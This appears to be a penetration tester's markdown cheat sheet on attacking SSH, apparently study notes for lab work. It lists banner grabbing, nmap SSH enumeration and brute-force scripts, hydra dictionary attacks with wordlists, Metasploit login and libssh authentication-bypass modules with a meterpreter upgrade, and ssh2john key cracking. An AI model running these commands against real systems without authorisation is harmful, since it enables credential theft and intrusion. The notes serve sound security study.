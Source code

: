 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. netcat
	2. [nmap](#nmap)
	3. [hydra](#hydra)
	4. [msfconsole](#msfconsole)
	5. ssh2john

---

# Overview
SSH - Secure Shell

Used to connect to securely connect to remote machines.

## #Ports
- 22 : main port

## Related Services
- OpenSSH

## Usage
`ssh -p 22 user@192.168.4.3`

---

# #Tools
## netcat
`nc 192.168.13.3 22` 
- grabs banner

---

## #nmap
- --script
	- ssh2-enum-algos
		- shows key algorithms
	- ssh-hostkey 
		- --script-args ssh_hostkey=full
	- ssh-auth-methods
		- can check if user has no password set
		- --script-args="ssh.user=admin"
	- ssh-brute --script-args userdb=/userlist
		- args : userdb, passdb, timeout
		- has its own wordlist
	- ssh-run 
		- `--script-args"username=student,password="",cmd=ls"`

---

## #hydra
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.7.3 -t 4 ssh 
```

---

## #msfconsole
- use auxiliary/scanner/ssh/ssh_login
	- options
	- set rhosts 192.26.34.2
	- set userpass_file /usr/share/wordlists/metaslpoit/root_userpass.txt
	- set STOP_ON_SUCCESS true
	- set verbose true
	- run

### Example
1. `search libssh` : service "protocol 2.0"  module
2. `use auxiliary/scanner/ssh/libssh_auth_bypass`
	1. `set rhosts` : set target
	2. `set SPAWN_PTY true` : set flag to spawn session
	3. ctrl-z : background session
3. `sessions -u 1` : upgrade to meterpreter

### Userful Modules
- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login

---

## ssh2john
1. `ssh2john > hash`
2. `john -w wordlist/rockyou.txt hash`
